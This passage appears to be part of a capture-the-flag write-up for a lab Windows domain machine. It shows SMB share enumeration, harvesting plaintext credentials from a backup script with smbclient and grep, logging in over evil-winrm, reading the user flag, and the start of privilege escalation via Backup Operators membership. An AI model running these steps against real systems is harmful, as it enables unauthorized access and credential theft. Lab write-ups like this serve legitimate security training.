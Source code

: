 ```
                                                                                                                             
[+] IP: 10.129.78.76:445        Name: 10.129.78.76              Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        DEV                                                     READ ONLY
        HR                                                      READ ONLY
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        SYSVOL                                                  READ ONLY       Logon server share 
[*] Closed 1 connections           
```

Further enumeration shows that this share holds `Backup_script.ps1` file, which contains plaintext credentials for `emily.oscars`
```
smbclient -U 'david.orelious%aRt$Lp#7t*VQ!3' \\\\$TARGET_IP\\DEV -c "get Backup_script.ps1" &&\
grep -E 'username =|password =' Backup_script.ps1
```
```
$username = "emily.oscars"
$password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
```

With this user we can finally access target over WinRM
```
evil-winrm -i $TARGET_IP -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```

And obtain user flag
```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> cat C:\Users\emily.oscars.CICADA\Desktop\user.txt
********************************
```
s
Foothold gained, let's elevate priviliges.

# Priviliges escalation
We will start simply, with listing of `emily.oscars` priviliges.
```
whoami /all
```
```
USER INFORMATION
----------------

User Name           SID
=================== =============================================
cicada\emily.oscars S-1-5-21-917908876-1423158569-3159038727-1601


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
```